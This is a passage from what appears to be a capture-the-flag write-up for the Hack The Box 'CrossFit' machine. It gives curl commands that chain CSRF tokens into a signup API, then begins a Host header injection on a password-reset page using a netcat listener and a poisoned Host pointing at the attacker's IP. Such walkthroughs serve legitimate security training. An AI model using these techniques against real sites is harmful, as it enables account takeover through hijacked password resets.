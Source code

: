 So, maybe sending a direct POST request to the Signup endpoint we get a hit and acquire an account.

```bash
❯ curl -d "username=test&password=test&confirm=test&email=test@test.com" http://crossfit-club.htb/api/signup
{"success":"false","message":"Invalid CSRF Token"}
```

Sending a request to the auth endpoint grants us a CSRF Token.

```bash
❯ curl http://crossfit-club.htb/api/auth
{"success":"false","token":"Adj2RdrK-2GruHb1P-c3zNYdotaNZPg1y6H4"}                                                                                                                                                                  
```

To check the options that we need to pass to the command for signing up, Curl gives us the option to ask for them.

```bash
❯ curl -X OPTIONS -v crossfit-club.htb/api/signup 2>&1 | grep Allow-Headers
< Access-Control-Allow-Headers: X-CSRF-TOKEN,Content-Type
```

But, everytime we send a curl to the auth endpoint it generates a new CSRF Token, so in order to use it to create the account I need to call it inside the message that we send to the server.

```bash
curl -b cookie -H "X-CSRF-TOKEN: `curl -sc cookie http://crossfit-club.htb/api/auth | awk -F'"' '{print $8}'`" -d "username=test&password=test&confirm=test&email=test@test.com" http://crossfit-club.htb/api/signup
```

But, it responds that only administrators can register accounts.

```bash
❯ curl -b cookie -H "X-CSRF-TOKEN: `curl -sc cookie http://crossfit-club.htb/api/auth | awk -F'"' '{print $8}'`" -d "username=test&password=test&confirm=test&email=test@test.com" http://crossfit-club.htb/api/signup
{"success":"false","message":"Only administrators can register accounts."}
```

Seems like we need to trick the administrator to generate an acc for us.

---

## Header injection attack

A vulnerability in reset password pages exists, changing the `Host` IP to our own in the request.

```bash
❯ nc -lvnp 80        
listening on [any] 80 ...
```

And in burpsuite we intercept a reset password request.

```bash
POST /password-reset.php HTTP/1.1
Host: 10.10.X.X
Content-Length: 33
Cache-Control: max-age=0
Origin: http://employees.crossfit.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://employees.crossfit.htb/password-reset.php
Accept-Encoding: gzip, deflate, br
```